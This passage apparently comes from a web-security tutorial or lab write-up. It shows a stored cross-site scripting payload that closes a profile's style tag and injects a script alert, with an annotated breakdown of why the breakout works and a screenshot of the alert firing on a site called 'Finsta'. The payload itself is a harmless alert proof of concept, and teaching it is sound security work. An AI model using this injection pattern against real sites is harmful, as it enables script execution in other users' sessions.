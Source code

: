 Now when we visit our profile the new HTML code will be similar to the following. I've also included a reformatted version with comments to explain. Now our Javascript runs properly and we are greeted with a Javascript alert!

```html
<!-- Original; this is what you'll actually see -->
...
<style>
    </style><script>alert("Hi")</script><style>
</style>
...

<!-- Modified; reformatted with explaining comments -->
...
<style></style>  <!-- The </style> we began with closed the original starting <style> -->
<script>alert("Hi")</script> <!-- Our <script> tag is now outside of the <style> and runs -->
<style></style> <!-- The <style> we finish with opens a new <style> so the original </style> properly closes -->
...
```

![Screenshot of a Javascript alert on our profile](./imgs/XSS-alert.png "Successful XSS using our Finsta style")
